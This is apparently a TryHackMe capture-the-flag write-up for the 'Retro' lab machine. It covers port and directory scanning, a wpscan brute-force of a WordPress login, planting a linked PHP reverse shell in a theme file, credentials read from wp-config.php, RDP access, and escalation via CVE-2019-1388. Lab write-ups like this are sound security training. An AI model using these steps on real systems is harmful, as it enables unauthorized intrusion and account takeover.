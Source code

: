 # Retro

![image](https://user-images.githubusercontent.com/5285547/131119489-6feda4b6-44b3-41aa-b3fa-bcb22ece0b84.png)

Room link: https://tryhackme.com/room/retro

Room IP: 10.10.22.148  
*\* for me your's will be different*

## Enumeration


* Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

* -sCV

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-27T11:32:23+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-26T11:19:26
| Not valid after:  2022-02-25T11:19:26
| MD5:   9269 09a9 b05b 293f 4a56 f70c 66b0 c167
|_SHA-1: 1c04 1ffc e75d 5f9f f772 12eb 5fcc c808 1b53 a3ed
|_ssl-date: 2021-08-27T11:32:23+00:00; +1s from scanner time.
```
---

* ffuf

```
ffuf -u http://10.10.22.148/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -mc all -fc 404

retro                   [Status: 301, Size: 149, Words: 9, Lines: 2]
```

Scanning the directories shows /retro endpoint

---

* Port 80

http://10.10.22.148/retro

The page shows us lots of posts from a guy called Wade about classic gaming. 
I noticed the site urls are simular to how wordpress are laid out. There is a login link at the bottom that resolves to a wordpress login.  
This confirms my suspicion, time to get wp-scan out. 

```
wpscan --url http://10.10.22.148/retro/

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 
[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

We can see this is an IIS server (as confirmed in the nmap scan) and wade is the user.  
Let's try to brute his login for wordpress using wpscan

```
wpscan --url http://10.10.22.148/retro/ -U wade -P /usr/share/wordlists/rockyou.txt
```

While leaving the wpscan running, I checked out the web app further, where i noticed a strange comment. 

![image](https://user-images.githubusercontent.com/5285547/131134191-2fcbcebe-f271-4dd7-bbf4-7959c58dff63.png)

---

* Reverse shell

After logging into the admin portal, I first checked to see if I could edit a theme template, which I could. 
Editing the 404.php page with a php reverse shell (windows version: https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/php_reverse_shell.php) we can get a shell. 

Call after editing. 

```
http://10.10.22.148/retro/wp-content/themes/90s-retro/404.php
```

whoami?

![image](https://user-images.githubusercontent.com/5285547/131135864-c7d8b488-9f84-4237-85a1-a83c8b194b01.png)

--- 

## User

Looking around the system I first check the wp-config.php file for any passwords. 

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress567');

/** MySQL database username */
define('DB_USER', 'wordpressuser567');

/** MySQL database password */
define('DB_PASSWORD', 'YSPgW[%C.mQE');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Not finding much else I remmebered we have another open port 3389. 

Info on port 3389:

Time to test the creds we have for wade. 

```
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
```

We're in! 

![image](https://user-images.githubusercontent.com/5285547/131137667-ad9fef1c-4974-44e2-82bc-9ac48fb2d0d2.png)


## Root

After getting the user flag, I noticed the recycle bin had something in, I dragged this to the desktop and seen a file called. 
```hhupd.exe```

Gooling the file lead to this article: https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege

We can check out the certificate and due to some misconfigurations on the way the UI handles opening a link, we effectivly run as system. 

Run the app and click the show more information link. 

![image](https://user-images.githubusercontent.com/5285547/131138533-435cc689-7421-4399-bf6c-0b082b6eafc9.png)

Then click on Issued by: VeriSign hyperlink to then open IE browser. Now choose save as and open a new UI (as system),

![image](https://user-images.githubusercontent.com/5285547/131138585-4550c94c-f265-4d3d-996c-3aa7a0bad387.png)

This failed for me, so I had to look for another way around

![image](https://user-images.githubusercontent.com/5285547/131140375-94acf104-cbd6-47e7-ae9d-309ee9bce9a1.png)

After more enumeration I found the system is vunerable to the exploit: https://github.com/jas502n/CVE-2019-1388

Copying the exploit to the box and running it gives us admin instantly. 

![image](https://user-images.githubusercontent.com/5285547/131141091-7462ac52-71e4-4576-8d5c-f07b30fc468e.png)

That's the end of the box. Thanks for reading! 
